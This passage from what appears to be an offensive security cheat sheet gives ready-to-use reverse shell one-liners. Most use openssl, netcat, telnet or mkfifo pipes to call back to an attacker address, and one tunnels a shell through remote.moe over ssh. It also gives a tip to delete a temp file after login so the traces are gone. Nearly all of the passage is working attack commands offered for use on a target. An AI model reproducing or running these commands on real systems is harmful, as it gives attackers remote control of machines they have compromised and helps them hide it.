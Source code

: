 ```sh
# On the target, start an openssl reverse shell as background process:
({ openssl s_client -connect 3.13.3.7:1524 -quiet </dev/fd/3 3>&- 2>/dev/null | sh 2>&3 >&3 3>&- ; } 3>&1 | : & )
```

<a id="reverse-shell-no-bash"></a>
**5.i.f. Reverse shell without /dev/tcp**

Embedded systems do not always have Bash and the */dev/tcp/* trick will not work. There are many other ways (Python, PHP, Perl, ..). Our favorite is to upload netcat and use netcat or telnet:

On the remote system:

```sh
nc -e /bin/sh -vn 3.13.3.7 1524
```

Variant if *'-e'* is not supported:
```sh
{ nc -vn 3.13.3.7 1524 </dev/fd/3 3>&- | sh 2>&3 >&3 3>&- ; } 3>&1 | :
```

* On modern shells this can be shortened to `{ nc 3.13.3.7 1524 </dev/fd/2|sh;} 2>&1|:`. (*thanks IA_PD*).  
* The `| :` trick won't work on C-Shell/tcsh (FreeBSD), original Bourne shell (Solaris) or Korn shell (AIX). Use `mkfifo` instead.

Variant for older */bin/sh*:
```sh
mkfifo /tmp/.io; sh -i 2>&1 </tmp/.io | nc -vn 3.13.3.7 1524 >/tmp/.io
```

Telnet variant:
```sh
mkfifo /tmp/.io; sh -i 2>&1 </tmp/.io | telnet 3.13.3.7 1524 >/tmp/.io
```

Telnet variant when mkfifo is not supported (Ulg!):
```sh
touch /tmp/.fio; tail -f /tmp/.fio | sh -i | telnet 3.13.3.7 31337 >/tmp/.fio
```
Note: Dont forget to `rm /tmp/.fio` after login.



<a id="revese-shell-remote-moe"></a>
**5.i.h. Reverse shell with remote.moe and ssh (encrypted)**

It is possible to tunnel raw TCP (e.g bash reverse shell) through [remote.moe](https://remote.moe):

On your workstation:
```sh
# First Terminal - Create a remote.moe tunnel to your workstation
ssh-keygen -q -t rsa -N "" -f .r  # New key creates a new remote.moe-address
ssh -i .r -R31337:0:8080 -o StrictHostKeyChecking=no nokey@remote.moe; rm -f .r
# Note down the 'remote.moe' address which will look something like
# uydsgl6i62nrr2zx3bgkdizlz2jq2muplpuinfkcat6ksfiffpoa.remote.moe

# Second Terminal - start listening for the reverse shell
nc -vnlp 8080
```
